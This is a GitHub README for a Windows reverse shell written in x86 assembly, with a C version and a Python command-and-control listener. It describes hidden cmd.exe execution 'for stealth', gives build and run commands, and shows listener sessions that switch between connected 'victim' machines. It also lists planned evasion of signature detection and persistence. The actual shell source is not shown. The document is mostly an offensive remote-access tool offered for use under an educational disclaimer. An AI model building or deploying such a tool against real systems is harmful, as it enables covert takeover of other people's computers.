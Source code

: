 
# **x86-Assembly-ReverseShell** 📡  
A **pure x86 Assembly** reverse shell for Windows that connects to a remote listener for command execution. Uses **Winsock**, **Windows Job Objects** for process management, and redirects **stdin, stdout, stderr** to the socket for full interactive control. Includes a **C equivalent** and a **Python listener** for testing.

---

## **Features**
- Pure Assembly – No dependencies, fully written in x86 Assembly.  
- Reverse Shell – Connects back to a remote listener.  
- Interactive Shell – Redirects input, output, and error streams to the socket.  
- Job Object Protection – Ensures `cmd.exe` is terminated if the connection drops.  
- Minimal Footprint – Small, fast, and runs without extra libraries.  
- C Equivalent – 1:1 C code provided for reference.  
- Python Listener – Basic C2-like listener included for testing.  
- Batch Compilation – Pre-made `.bat` file for quick assembly and linking.  

---

## **Project Structure**
```
/x86-Assembly-ReverseShell
│── reverse_shell.asm  # Main Assembly reverse shell
│── reverse_shell.c    # 1:1 C equivalent source code
│── requirements.txt   # Listener dependencies
│── compile.bat        # Windows batch script to compile & link automatically
│── listener.py        # Python-based listener (C2-like functionality)
│── listener_linux.py  # Python-based listener for linux
│── README.md          # Project documentation
```

---

## **How It Works**
1. Creates a TCP connection to `127.0.0.1:4444` (**hardcoded in Assembly**).
   - To change the IP/Port, manually modify the `sockaddr_in` structure in `reverse_shell.asm`.
2. Redirects stdin, stdout, stderr of `cmd.exe` to the socket.  
3. Runs `cmd.exe` in hidden mode for stealth execution.  
4. Uses a Windows Job Object (`JOB_OBJECT_LIMIT_KILL_ON_JOB_CLOSE`) to ensure process cleanup.  
5. Communicates with the listener (`listener.py`) for remote command execution.  

---

## **Setup & Installation**
### **1. Install Python (if not already installed)**
Ensure Python 3.x is installed.  
To check, run:
```bash
python3 --version
```
or on Windows:
```cmd
python --version
```

### **2. Install Dependencies**
`listener.py` requires `colorama` for colored output and `pyreadline3` (Windows only).  
To install dependencies, run:
```bash
pip install -r requirements.txt
```
If you're on **Windows**, also install:
```bash
pip install pyreadline3
```

---

## **Using `listener.py`**
### **1. Start the Listener**
```bash
python3 listener.py
```
By default, it listens on `0.0.0.0:4444`, allowing connections from **any IP**.  
You can **customize the listener IP & port**:
```bash
python3 listener.py --ip 192.168.1.100 --port 8080
```

### **2. Wait for Incoming Connections**
Once a reverse shell connects, you'll see:
```bash
[2025-02-23 16:30:20] New connection from 192.168.1.10:50234
```

### **3. Interact with the Reverse Shell**
Simply type commands:
```bash
Shell> whoami
admin-PC\admin
Shell> dir
 Volume in drive C has no label.
 Directory of C:\Users\admin
```

### **4. List Connected Clients**
Use `clients` to see active sessions:
```bash
SHELL> clients
--------------------------------------------------
  [0] 192.168.1.10:50234 - ACTIVE
  [1] 192.168.1.12:50240 - IDLE
--------------------------------------------------
```

### **5. Switch Between Clients**
Select a client by ID:
```bash
SHELL> switch 1
[2025-02-23 16:31:10] Switched to client 192.168.1.12:50240
Client 1> whoami
victim-PC\user
```

### **6. Built-in Commands**
| **Command** | **Description** |
|------------|----------------|
| `clients`  | Show connected clients |
| `switch <id>` | Switch to a specific client |
| `sessions` | List saved sessions |
| `id`       | Show the current client ID |
| `info`     | Show current client system info |
| `clear`    | Clear the terminal |
| `help`     | Show this help menu |
| `exit`     | Close the current session |

---
---

## **Compilation & Execution**
### **Method 1: Using `compile.bat` (Recommended)**
A **Windows batch script** (`compile.bat`) is included for **automatic assembly and linking**.  

Run:
```cmd
compile.bat
```
This will:
- Assemble `reverse_shell.asm` using `nasm`
- Link it using `link.exe` (Windows default linker)

### **Method 2: Manual Compilation**
#### **Using `nasm` and `link.exe`**
```cmd
nasm -f win32 reverse_shell.asm -o reverse_shell.obj
link /entry:Start /subsystem:console reverse_shell.obj kernel32.lib ws2_32.lib
```

#### **Using `nasm` and `mingw-w64` (`ld`)**
```cmd
nasm -f win32 reverse_shell.asm -o reverse_shell.o
ld -o reverse_shell.exe reverse_shell.o -lkernel32 -lws2_32
```

---

### **Running the Reverse Shell**
After compiling, execute:
```cmd
reverse_shell.exe
```
Ensure the listener (`listener.py`) is **running before executing the shell**.

---

## **Security & Legal Notice**
> **⚠️ Disclaimer:**  
> This project is for **educational and research purposes only**.  
> Unauthorized use on **live systems** is illegal. Always test in **controlled environments (VMs, labs, or CTFs)**.  

---

## **Future Enhancements**
- Encrypt communication (e.g., XOR, AES).  
- Obfuscate Assembly code to evade signature-based detection.  
- Implement persistence mechanisms for maintaining access.  
- Add support for additional platforms (Linux/macOS).  

---

## **References**
- [Windows API Documentation](https://docs.microsoft.com/en-us/windows/win32/api/)
- [Winsock Programming](https://docs.microsoft.com/en-us/windows/win32/winsock/)
- [NASM Assembly Guide](https://www.nasm.us/)

---

DM `ceptronn` on Discord for any questions!

